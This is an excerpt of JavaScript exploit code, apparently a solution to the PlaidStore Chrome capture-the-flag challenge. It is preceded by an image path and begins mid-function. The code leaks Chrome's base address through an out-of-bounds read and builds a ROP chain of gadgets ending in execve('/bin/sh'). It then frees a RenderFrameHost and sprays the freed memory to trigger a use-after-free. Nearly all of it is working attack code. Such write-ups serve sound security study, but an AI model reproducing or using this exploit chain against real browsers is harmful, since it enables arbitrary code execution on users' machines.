 ```js
        for(;;) {
          	// step 1 trigger oob read to get address
            await frame.contentWindow.Leak();
            if(frame.contentWindow.chromeBaseAddr != 0) {
                console.log("[+] leak chrome base addr: "+hex(frame.contentWindow.chromeBaseAddr));
                console.log("[+] leak reander frame host addr: "+hex(frame.contentWindow.renderFrameHostAddr));
                break;
            }
        }
      	
      	// step 2 prepare the rop chain
        chromeBaseAddr = frame.contentWindow.chromeBaseAddr;
        renderFrameHostAddr = frame.contentWindow.renderFrameHostAddr;
        let xchgRaxRsp = chromeBaseAddr + 0x000000000880dee8n //: xchg rax, rsp ; clc ; pop rbp ; ret
        let popRdi = chromeBaseAddr + 0x0000000002e4630fn //: pop rdi ; ret
        let popRsi = chromeBaseAddr + 0x0000000002d278d2n //: pop rsi ; ret
        let popRdx = chromeBaseAddr + 0x0000000002e9998en //: pop rdx ; ret
        let popRax = chromeBaseAddr + 0x0000000002e651ddn //: pop rax ; ret
        //let syscall = chromeBaseAddr + 0x0000000002ef528dn //: syscall
        let execve = chromeBaseAddr + 0x9efca30n //: execve
        
        // step 3 reserve the child plaidStorePtrList to trigger uaf
        let plaidStorePtrList = frame.contentWindow.plaidStorePtrList;

      	// step 4 prepare the rop chain memory
        let binshAddr = renderFrameHostAddr+0x50n;
        let renderFrameHostSize = 0xc28
        frameBuf = new ArrayBuffer(renderFrameHostSize);
        let frameData8 = new Uint8Array(frameBuf).fill(0x41);
        frameDataView = new DataView(frameBuf);

        frameDataView.setBigInt64(0x160,xchgRaxRsp,true);

        frameDataView.setBigInt64(0,renderFrameHostAddr,true);
        frameDataView.setBigInt64(0x8,popRdi,true);
        frameDataView.setBigInt64(0x10,binshAddr,true);
        frameDataView.setBigInt64(0x18,popRsi,true);
        frameDataView.setBigInt64(0x20,0n,true);
        frameDataView.setBigInt64(0x28,popRdx,true);
        frameDataView.setBigInt64(0x30,0n,true);
        frameDataView.setBigInt64(0x38,popRax,true);
        frameDataView.setBigInt64(0x40,59n,true);
        frameDataView.setBigInt64(0x48,execve,true);
        frameDataView.setBigInt64(0x50,0x68732f6e69622fn,true);  // /bin/sh
        // frameDataView.setBigInt64(0x50, 0x6f6e672f6e69622fn,true);  // /bin/gno
        // frameDataView.setBigInt64(0x58, 0x75636c61632d656dn,true);  // me-calcu
        // frameDataView.setBigInt64(0x60, 0x726f74616cn,true);  // lator\x00

      	// step 5 free the renderFrameHost memory
        frame.remove();

      	// step 6 malloc the freed memory and trigger uaf
        let bins = [];
        for(var i=0; i<0x1000; i++){
            plaidStorePtrList[0].storeData("crash", frameData8);
        }
    })
}
pwn();
```
